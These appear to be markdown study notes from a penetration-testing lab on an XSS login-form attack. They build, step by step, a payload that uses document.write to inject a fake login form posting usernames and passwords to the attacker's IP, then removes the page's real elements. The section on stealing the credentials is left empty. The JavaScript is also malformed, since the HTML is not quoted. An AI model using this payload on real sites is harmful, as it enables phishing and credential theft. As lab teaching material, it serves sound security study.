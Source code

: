 
---
### Login Form Attack

##### 1. Constructing the Payload

> This is a type of [[Cross Site Scripting (XSS)]] attack.

This form would be injected into the discover XSS injection point.

```HTML
<form action=http://OUR-IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
> Place in the `action` tag our [[IP]] address so that on submission of the form, the credentials are sent to our machine.

We can inject this form into the vulnerable parameter using this javascript function `document.write()`, which writes the content directly into the HTML of the page.

```JavaScript
document.write(
	<form action=http://OUR-IP>
	<input type="username" name="username" placeholder="Username">
	<input type="password" name="password" placeholder="Password">
	<input type="submit" name="submit" value="Login">
	</form>
);
```

> This will add our login form to the page, but it will not remove other parts of the page that we might want to not appear. 
> To do that, use the `document.getElementById().remove()` function.

Therefore, the final payload: 

```JavaScript
document.write(
	<form action=http://10.10.15.189>
	<input type="username" name="username" placeholder="Username">
	<input type="password" name="password" placeholder="Password">
	<input type="submit" name="submit" value="Login">
	</form>
);
document.getElementById('to-remove').remove();
```

##### 2. Stealing the Credentials



---
